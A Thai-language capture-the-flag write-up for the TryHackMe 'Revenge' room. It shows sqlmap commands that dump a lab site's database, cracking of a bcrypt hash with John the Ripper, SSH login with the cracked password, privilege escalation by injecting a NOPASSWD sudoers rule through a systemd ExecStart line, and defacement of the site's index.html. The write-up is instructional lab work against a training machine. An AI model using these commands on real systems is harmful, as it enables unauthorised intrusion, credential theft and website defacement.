










### ✨ บทนำ
Revenge เป็นห้อง CTF สาย Web บน TryHackMe ที่ท้าทายด้วยภารกิจเจาะเข้าเว็บ, ใช้ SQL Injection, ยกระดับสิทธิ์ และแก้หน้าแรกของเว็บไซต์ (deface) ให้ได้ตามเป้าหมายที่โจทย์กำหนด

### 🔍 เป้าหมายของโจทย์
“Break into the server that’s running the website and deface the front page.”

สรุป:
- เข้าเครื่องให้ได้
- แก้ไฟล์หน้าเว็บให้เปลี่ยน
- พร้อมตามหา Flags ทั้ง 3 ใบ

# 🧠 TryHackMe - Revenge

> 🟡 หมวด: Web / Privilege Escalation  
> 🧩 ความยาก: Medium  
> 🕵️‍♂️ โหมด: CTF แบบ Capture The Flag  
> 🧩 URL: [Revenge](https://tryhackme.com/room/revenge)  
> 👨‍💻 ผู้ทำ: Thanyakorn

---
## 📚 สารบัญ

- [📌 ข้อมูลจากโจทย์](#ข้อมูลจากโจทย์)
- [🛰️ 1. ข้อมูลเบื้องต้น (Target Info)](#1-ขอมลเบองตน-target-info)
- [🌐 2. ทดลองเข้าใช้งานเว็บไซต์](#2-ทดลองเขาใชงานเวบไซต)
- [📌 พิจารณาเบื้องต้น](#พจารณาเบองตน)
- [🚪 3. Initial Access](#3-initial-access)
  - [🔸 3.1 ตรวจสอบ SQL Injection ด้วย sqlmap](#31-ตรวจสอบ-sql-injection-ดวย-sqlmap)
  - [🔸 3.2 ตรวจสอบโครงสร้างฐานข้อมูล](#32-ตรวจสอบโครงสรางฐานขอมล)
  - [🔸 3.3 ดึงข้อมูลจากตาราง user](#33-ดงขอมลจากตาราง-user)
  - [🔸 3.4 ดึงข้อมูลจากตาราง system_user](#34-ดงขอมลจากตาราง-system_user)
  - [🔐 3.5 Credential Cracking with John the Ripper](#35-credential-cracking-with-john-the-ripper)
- [🛠️ ขั้นตอนการเตรียมไฟล์ hash](#ขนตอนการเตรยมไฟล-hash)
- [🧂 Crack Bcrypt Hash ด้วย John the Ripper](#crack-bcrypt-hash-ดวย-john-the-ripper)
  - [📦 เราจะใช้ john คู่กับ rockyou.txt ในการ Dictionary attack:](#เราจะใช-john-คกบ-rockyoutxt-ในการ-dictionary-attack)
- [🔐 4. SSH เข้าเครื่องเป้าหมาย](#4-ssh-เขาเครองเปาหมาย)
- [📁 5. ค้นหา Flag](#5-คนหา-flag)
- [🔼 6. Privilege Escalation](#6-privilege-escalation)
  - [🔍 6.1 ตรวจสอบสิทธิ์ด้วยคำสั่ง:](#61-ตรวจสอบสทธดวยคำสง)
  - [✏️6.2 แก้ไขไฟล์ Service ด้วย `sudoedit`](#62-แกไขไฟล-service-ดวย-sudoedit)
  - [⚙️ 6.3 แก้ไข Unit File เพื่อ Exploit สิทธิ์ผ่าน Service](#63-แกไข-unit-file-เพอ-exploit-สทธผาน-service)
  - [🔄 Reload และ Restart Service](#reload-และ-restart-service)
  - [🧑‍💻 6.4 ยกระดับสิทธิ์เป็น Root](#64-ยกระดบสทธเปน-root)
  - [📂 ค้นหา Flag เพิ่มเติม](#คนหา-flag-เพมเตม)
- [🌐 7. แก้ไขหน้าเว็บ `(Deface)`](#7-แกไขหนาเวบ-deface)
  - [📁 7.1 ค้นหา Directory เว็บไซต์](#71-คนหา-directory-เวบไซต)
  - [✍️ 7.2 แก้ไขหน้าแรกของเว็บไซต์](#72-แกไขหนาแรกของเวบไซต)
  - [🛠️ 7.3 ทำการแก้ไขหน้าเว็บและบันทึกการเปลี่ยนแปลง](#73-ทำการแกไขหนาเวบและบนทกการเปลยนแปลง)
- [🏁 8. ค้นหา Flag สุดท้าย (flag3.txt)](#8-คนหา-flag-สดทาย-flag3txt)

---

## 📌 ข้อมูลจากโจทย์

> "What I want you to do is simple. Break into the server that's running the website and deface the front page."

💬 แปล: สิ่งที่โจทย์ต้องการคือ เจาะเข้าเซิร์ฟเวอร์ที่รันเว็บไซต์ แล้วแก้หน้าแรกของเว็บ (deface)

---

## 🛰️ 1. ข้อมูลเบื้องต้น (Target Info)

- IP เครื่องเป้าหมาย: `10.10.28.30`
- พอร์ตที่เปิด: `22`, `80`

---

## 🌐 2. ทดลองเข้าใช้งานเว็บไซต์

- ไปที่เมนู **Products** จะเจอชื่อสินค้า 4 รายการ  
- คลิก **LEARN MORE** ของสินค้าใดก็ได้


- ตัวอย่างสินค้า: Box of Duckies  
- จะแสดงรูปสินค้า, คำอธิบาย, ราคา, สี  
- สังเกต Path ด้านบนจะเป็น `/products/1`  
- กลับไปหน้าเดิม แล้วคลิก **LEARN MORE** ของสินค้าอื่น



- จะเห็นว่า Path เหมือนเดิมแต่ตัวเลขเปลี่ยนเป็น `/products/2`


- ลองเปลี่ยนตัวเลข 2 เป็น 3 ใน Path เพื่อดูสินค้าชิ้นที่ 3


---

## 📌 พิจารณาเบื้องต้น

- น่าจะมีการใช้ฐานข้อมูลเพื่อดึงข้อมูลสินค้าตาม ID ที่ส่งผ่าน URL
- เมื่อลองใส่เครื่องหมาย `'` ลงในพารามิเตอร์ของ URL พบว่าเว็บไซต์แสดงข้อผิดพลาด HTTP 500 ซึ่ง อาจเป็นสัญญาณ บ่งชี้ถึงช่องโหว่ SQL Injection



---

## 🚪 3. Initial Access

### 🔸 3.1 ตรวจสอบ SQL Injection ด้วย sqlmap

📥 ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" --dbs
```


📝 **คำอธิบาย:**

- `sqlmap` คือเครื่องมืออัตโนมัติสำหรับตรวจสอบช่องโหว่ SQL Injection และดึงข้อมูลฐานข้อมูล  
- ตัวเลือก `-u` ใช้ระบุ URL ที่ต้องการทดสอบ โดย `"http://10.10.28.30/products/3*"` ใช้ wildcard 3* เพื่อให้ sqlmap ลองค่าหลาย ๆ ค่าในพารามิเตอร์ id  
- ตัวเลือก `--dbs` สั่งให้ sqlmap ดึงชื่อฐานข้อมูลทั้งหมดที่เชื่อมต่อกับเว็บเป้าหมาย  


💡 ผลลัพธ์: แสดงฐานข้อมูลต่าง ๆ เช่นฐานข้อมูลหลัก `duckyinc` และฐานข้อมูลระบบของ MySQL เช่น `mysql`, `information_schema` เป็นต้น

> เราจะมุ่งเน้นวิเคราะห์ฐานข้อมูล `duckyinc` ต่อไป เพราะเป็นฐานข้อมูลสำคัญของเว็บนี้

**สรุป:**  
พบช่องโหว่ SQL Injection ที่พารามิเตอร์ `id` ของ URL สามารถเข้าถึงฐานข้อมูลหลักได้

### 🔸 3.2 ตรวจสอบโครงสร้างฐานข้อมูล

📥 ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --columns
```


📝 **คำอธิบาย:**

- `-D duckyinc` ระบุชื่อฐานข้อมูลที่ต้องการให้ sqlmap ทำการดึงข้อมูล
- `--columns` ให้ sqlmap ดึงชื่อคอลัมน์ทั้งหมดจากทุกตารางภายในฐานข้อมูลที่ระบุ


เมื่อรันคำสั่งแล้ว sqlmap จะถามว่าต้องการดำเนินการต่อหรือไม่ ให้ตอบ `Y`


💡 ผลลัพธ์: จะเห็นรายชื่อคอลัมน์ทั้งหมดภายในฐานข้อมูล `duckyinc` ซึ่งเป็นข้อมูลโครงสร้างที่จำเป็นสำหรับการดึงข้อมูลเป้าหมายในขั้นตอนถัดไป

### 🔸 3.3 ดึงข้อมูลจากตาราง user

หลังจากเราทราบโครงสร้างของฐานข้อมูลแล้ว ขั้นตอนนี้จะเป็นการดึงข้อมูลภายในตาราง user ซึ่งอาจมีข้อมูลสำคัญ เช่น รหัสผ่าน หรือค่า Flag ที่เราต้องการ

📥 ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc -T user --dump
```


📝 **คำอธิบาย:**

- `-D duckyinc` ระบุชื่อฐานข้อมูลที่ต้องการให้ sqlmap ทำการดึงข้อมูล
- `-T user` ระบุตารางที่ต้องการดึงข้อมูล
- `--dump` ดึงข้อมูลทั้งหมดจากตารางที่ระบุ


💡 ผลลัพธ์: สังเกตคอลัมน์ `credit_card` ของ `id = 6` พบ Flag ซ่อนอยู่ เอาไปตอบใน Tryhackme



### 🔸 3.4 ดึงข้อมูลจากตาราง system_user

หลังจากนั้น เราจะโฟกัสที่ตาราง `system_user` ซึ่งคาดว่าอาจมีข้อมูลผู้ใช้งานระบบ เช่น admin หรือข้อมูลที่เกี่ยวข้องกับการยกระดับสิทธิ์

📥 ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --dump -T system_user
```


📝 **คำอธิบาย:**

- `-T system_user` ระบุตารางที่ต้องการ



💡 ผลลัพธ์: พบ `username` และ `password` ที่เป็น hash (bcrypt)

### 🔐 3.5 Credential Cracking with John the Ripper

หลังจากดึงข้อมูลจากตาราง `system_user` เราพบว่า password ของผู้ใช้งานอยู่ในรูปแบบ bcrypt ซึ่งเป็น hash ที่นิยมใช้ในระบบจริง

## 🛠️ ขั้นตอนการเตรียมไฟล์ hash

1. สร้างโฟลเดอร์ชื่อ `ducky` แล้วเข้าไปในโฟลเดอร์:

```bash
mkdir ducky
cd ducky
```

2. สร้างไฟล์ชื่อ `hashes.txt` เพื่อเก็บ hash:

```bash
nano hashes.txt
```


3. วาง bcrypt hash ที่ได้จาก sqlmap (ในที่นี้ใส่เฉพาะของ user `server-admin`)

> 📌 แนะนำให้ลบ hash อื่น ๆ ออก เพื่อให้ crack ได้เร็วขึ้น



---

4. ตรวจสอบว่า hash ถูกบันทึกเรียบร้อย:

```bash
cat hashes.txt
```

## 🧂 Crack Bcrypt Hash ด้วย John the Ripper
### 📦 เราจะใช้ john คู่กับ rockyou.txt ในการ Dictionary attack:

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

⚠️ หมายเหตุ:
> ถ้ามันขึ้นว่า `No password hashes left to crack` หมายความว่า john ได้ทำการถอดรหัสแฮชที่มีอยู่ในไฟล์ `hashes.txt` เรียบร้อยแล้วหรือไม่มีแฮชที่เหลือให้ทำการถอดรหัสจากไฟล์นั้น

- หลังจากรันเสร็จรอจนกว่าจะ crack สำเร็จ จากนั้นดูผลลัพธ์ที่ได้โดยใช้คำสั่ง:
```bash
john --show hashes.txt
```


💡 ผลลัพธ์ที่ได้:
ได้รหัสผ่าน: `inuyasha` สำหรับ `server-admin`

---

## 🔐 4. SSH เข้าเครื่องเป้าหมาย

- หลังจากได้รหัสผ่าน `inuyasha` ของผู้ใช้ `server-admin` ใช้ SSH เข้าเครื่องเป้าหมายผ่านพอร์ต 22
  
📥 ใช้คำสั่ง:

```bash
ssh server-admin@10.10.28.30
```

📝 คำอธิบาย:

- SSH (Secure Shell) ใช้ในการเชื่อมต่อแบบปลอดภัยไปยังเครื่องอื่นผ่านเครือข่าย
- เหมาะสำหรับการควบคุมเซิร์ฟเวอร์, จัดการไฟล์, รันคำสั่งระยะไกล
- การเชื่อมต่อผ่าน SSH มีการเข้ารหัสข้อมูลเพื่อความปลอดภัย

เมื่อรันคำสั่ง ระบบจะขอให้กรอกรหัสผ่าน → ให้ใส่ `inuyasha`
\
✅ หากเชื่อมต่อสำเร็จ จะได้ Shell ของเครื่องเป้าหมายในฐานะผู้ใช้ `server-admin`


---

## 📁 5. ค้นหา Flag

หลังจากเข้าสู่ระบบได้แล้ว ให้ลองดูไฟล์ใน home directory ของ `server-admin`:

```bash
ls
```

💡 ผลลัพธ์: พบไฟล์ชื่อ `flag2.txt`

ใช้คำสั่งเพื่ออ่านเนื้อหา:

```bash
cat flag2.txt
```


✅ ได้ Flag ที่สอง นำไปใช้ตอบใน TryHackMe 



---

## 🔼 6. Privilege Escalation

ตรวจสอบสิทธิ์ผู้ใช้ `server-admin` ว่าสามารถใช้ `sudo` กับคำสั่งใดได้บ้าง

### 🔍 6.1 ตรวจสอบสิทธิ์ด้วยคำสั่ง:

```bash
sudo -l
```


📝 คำอธิบาย:
- `sudo -l` ใช้ดูว่าเราสามารถใช้สิทธิ์ sudo กับคำสั่งอะไรได้บ้างโดยไม่ต้องใช้รหัสผ่านเพิ่มเติม

💡 ผลลัพธ์: พบว่าใช้ไบนารี `systemctl` เพื่อเริ่ม/หยุด/รีสตาร์ทบริการ `duckyinc` ได้

### ✏️6.2 แก้ไขไฟล์ Service ด้วย `sudoedit`

📥 ใช้คำสั่ง:

```bash
sudoedit /etc/systemd/system/duckyinc.service
```


💡 เมื่อกด Enter แล้ว ระบบจะเปิดไฟล์ด้วย editor (เช่น nano หรือ vi) ขึ้นมาให้แก้ไข config ได้ทันที


🔍  พบว่าแอปพลิเคชันทำงานภายใต้ผู้ใช้ `flask-app` ซึ่งไม่ใช่ `root` 

🔍  สันนิษฐานว่าแอปนี้พัฒนาโดยใช้ Flask (Python web framework)

🔍  ต้องทำ Privilege Escalation จากผู้ใช้ `flask-app` ไปเป็น `root`


หลังจากแก้ไขไฟล์บริการแล้ว ต้อง reload daemon เพื่อให้ systemd รับการเปลี่ยนแปลง:

```bash
sudo  systemctl daemon-reload
```

จากนั้นรีสตาร์ท service เพื่อให้โหลด config ใหม่:

```bash
sudo systemctl restart duckyinc.service
```


### ⚙️ 6.3 แก้ไข Unit File เพื่อ Exploit สิทธิ์ผ่าน Service

- เป้าหมายของขั้นตอนนี้คือ แทรกคำสั่งลงใน Service `(ExecStart)` เพื่อทำให้ผู้ใช้ `server-admin` สามารถรัน `/bin/bash` ด้วยสิทธิ์ `root` โดยไม่ต้องใช้รหัสผ่าน
- ในไฟล์ `duckyinc.service` ให้แก้บรรทัด `ExecStart` ดังนี้:

```bash
/bin/bash -c "echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' | sudo tee /etc/sudoers.d/server_admin_as_root &&
```
  


📝 คำอธิบาย:

- echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' สร้าง rule ใหม่ให้ sudo ใช้งาน bash โดยไม่ต้องใช้รหัสผ่าน
- sudo tee /etc/sudoers.d/server_admin_as_root บันทึก rule นี้ลงในระบบ
- ใช้ && ต่อท้ายเพื่อให้ระบบรันแอปเดิมต่อไปตามปกติ (ไม่ให้ระบบพัง)

> 🎯 นี่คือจุดที่เรา "ฝัง payload" เข้าไปใน Service ทำให้เมื่อ Service นี้ถูกรันอีกครั้ง (ด้วย systemctl) ระบบจะทำงานตามที่เราสั่ง (Privilege Escalation)

- อย่าลืมต่อท้าย ExecStart ด้วย app:app เพื่อให้บริการทำงานต่อได้


### 🔄 Reload และ Restart Service

- หลังจากแก้ไขไฟล์ .service ให้รันคำสั่งด้านล่างเพื่อให้ systemd โหลดค่าที่เปลี่ยนแปลง:

```bash
sudo systemctl daemon-reload
sudo systemctl restart duckyinc.service
```


> 📌 การที่เราทำแบบนี้คือจะทำให้ผู้ใช้ server-admin สามารถเรียกใช้งาน /bin/bash ด้วยสิทธิ์ root ได้โดยไม่ต้องกรอกรหัสผ่าน

- จากนั้นตรวจสอบสิทธิ์อีกครั้งด้วยคำสั่ง:

```bash
sudo -l
```


### 🧑‍💻 6.4 ยกระดับสิทธิ์เป็น Root

หลังจากรีโหลดและรีสตาร์ท service แล้ว ตอนนี้ผู้ใช้ `server-admin` จะสามารถรันคำสั่ง `/bin/bash` ด้วยสิทธิ์ `root` ได้โดยไม่ต้องใช้รหัสผ่าน

📥 ใช้คำสั่ง:

```bash
sudo bash
```

✅ หากสำเร็จ เราจะได้ shell ที่รันในฐานะ root แล้ว



### 📂 ค้นหา Flag เพิ่มเติม

- ใช้คำสั่ง ls เพื่อตรวจสอบไฟล์ในโฟลเดอร์ปัจจุบัน

```bash
ls
ls -la
```

- ไม่พบไฟล์ flag4.txt ตามที่คาดไว้


📭 ผลลัพธ์: ไม่มี flag4 หรือไฟล์น่าสงสัยใน home directory

⚠️ 6.4 เป้าหมายที่แท้จริง: Deface หน้าเว็บ

> 📌 อย่าลืมว่าเป้าหมายของภารกิจนี้ตามที่ระบุในโจทย์คือ:

"Break into the server and deface the front page."

ไม่ใช่แค่การยกระดับสิทธิ์เท่านั้น

---

## 🌐 7. แก้ไขหน้าเว็บ `(Deface)`

ตอนนี้เราจะเปลี่ยนหน้าแรกของเว็บไซต์ `(หน้า default)` ให้เสียหายตามโจทย์ที่กำหนด

### 📁 7.1 ค้นหา Directory เว็บไซต์

ตำแหน่งของเว็บไซต์อยู่ที่:

```bash
cd /var/www/duckyinc/
ls
```
🔍 เมื่อเข้าไปจะพบโฟลเดอร์ชื่อ `templates`

- เข้าไปใน templates และดูไฟล์ภายใน:

```bash
cd templates
ls
```


### ✍️ 7.2 แก้ไขหน้าแรกของเว็บไซต์

> เมื่อเปิดไฟล์ index.html จะพบว่าเป็นโค้ด HTML สำหรับหน้าแรกของเว็บไซต์ทั้งหมด

📥 ใช้คำสั่ง:

```bash
nano index.html
```

📝 คำอธิบาย:

- `nano` เป็นโปรแกรม editor สำหรับแก้ไขไฟล์จาก command line
- `index.html` คือไฟล์หน้าแรกของเว็บ — หากเราแก้ไขไฟล์นี้ หน้าแรกของเว็บไซต์ก็จะเปลี่ยนไปทันที

จากที่เราทำการ `nano` เข้าไปดูในไฟล์จะพบว่า `code` ตรงกันหมดเลยของการสร้างหน้าแรกเว็บไซต์


### 🛠️ 7.3 ทำการแก้ไขหน้าเว็บและบันทึกการเปลี่ยนแปลง

- ทำการแก้ไขหัวข้อภายในไฟล์ index.html จาก `<h1>Rubber Ducky Inc.</h1>` → `<h1>Chokchai Want Grade F Kub</h1>`

- จากนั้นกด `Ctrl + X` → กด `Y` เพื่อบันทึก และ `Enter` เพื่อยืนยันการเปลี่ยนชื่อไฟล์เดิม
  
📷 หลังจาก `Save` แล้ว เปิดหน้าเว็บไซต์ผ่าน `Browser`


✅ จะเห็นว่าหน้าเว็บเปลี่ยนไปตามที่เราแก้ไขจริง แสดงว่าการ `Deface` สำเร็จ

## 🏁 8. ค้นหา Flag สุดท้าย (flag3.txt)

- กลับไปที่ root directory:

```bash
cd /root
ls
```
